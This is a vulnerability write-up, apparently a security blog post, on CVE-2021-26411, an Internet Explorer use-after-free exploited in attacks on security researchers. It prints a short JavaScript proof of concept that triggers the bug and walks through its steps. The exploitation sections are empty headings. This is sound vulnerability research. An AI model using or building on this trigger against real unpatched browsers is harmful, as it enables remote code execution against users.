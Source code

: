 ```yaml
---
layout: post
toc: true
title: "CVE-2021-26411: Internet Explorer mshtml use-after-free"
tags: [0day, itw, ie]
author:
  - iamelli0t
---
```


In January of this year, Google and Microsoft respectively published blogs revealing attacks on security researchers by an APT group in North Korea[1][2]. A vulnerability in Internet Explorer used in this attack was fixed as CVE-2021-26411 in Microsoft's Patch Tuesday this month[3]. The vulnerability is triggered when users of the affected version of Internet Explorer access a malicious link constructed by the attacker, causing remote code execution.

## Root cause analyses
The POC that can trigger the vulnerability is shown below:
```html
<script>
var elem = document.createElement('xxx'); 
var attr1 = document.createAttribute('yyy'); 
var attr2 = document.createAttribute('zzz'); 

var obj = {};
obj.valueOf = function() {
	elem.clearAttributes();
	return 0x1337;
};

attr1.nodeValue = obj;
attr2.nodeValue = 123;
elem.setAttributeNode(attr1);
elem.setAttributeNode(attr2);
elem.removeAttributeNode(attr1); 
</script>
```

Execution process of POC:
1. Create 1 HTML Element object (elem) and 2 HTML Attribute objects (attr1 and attr2)
2. Assign a value to the nodeValue of two Attribute objects, where attr1's nodeValue points to an Object that overloads ValueOf
3. Bind two Attribute objects attr1 and attr2 to Element object elem
4. Call elem.removeAttributeNode(attr1) to remove the attribute attr1 object of 'xxx'
5. The removeAttributeNode method triggers a callback to the valueOf function, during which clearAttributes() is called to clear all attribute objects bound by the eLEM object: attr1 and attr2
6. ValueOf callback returns, IE Tab process crashes at null pointer dereference:


## From nullptr dereference to read/write primitive


## Some thoughts


## References
[1] https://blog.google/threat-analysis-group/new-campaign-targeting-security-researchers/
[2] https://www.microsoft.com/security/blog/2021/01/28/zinc-attacks-against-security-researchers/
[3] https://msrc.microsoft.com/update-guide/en-us/vulnerability/CVE-2021-26411 
[4] https://enki.co.kr/blog/2021/02/04/ie_0day.html
